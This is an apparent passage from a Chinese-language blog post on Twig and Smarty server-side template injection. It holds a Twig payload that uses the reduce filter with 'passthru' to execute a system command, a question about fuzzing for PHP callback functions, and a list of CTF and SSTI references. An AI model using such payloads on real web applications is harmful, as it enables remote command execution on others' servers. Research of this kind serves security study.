 ```twig
{{[0, 0]|reduce("passthru", "id")}}
```

不知道有没有自动化fuzz，把php允许有callback参数的所有函数找出来，如果有师傅研究过，欢迎来交流。











# 参考资料

- [[CISCN2019 华东南赛区]Web11 -- Smarty SSTI](https://mayi077.gitee.io/2020/04/27/CISCN2019-%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA-Web11-Smarty-SSTI/)
- [Smarty SSTI](https://www.freebuf.com/column/219913.html)
- [由一道CTF赛题分析Twig SSTI利用方式](https://forum.90sec.com/t/topic/1170)
-  [SSTI-smarty](http://www.r0bots.cc/index.php/2019/08/17/111.html)
- [TWIG 3.x with symfony SSTI](https://xz.aliyun.com/t/7507)
- [TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518)
- [twig symfony 文档](https://twig.symfony.com/doc/2.x/)

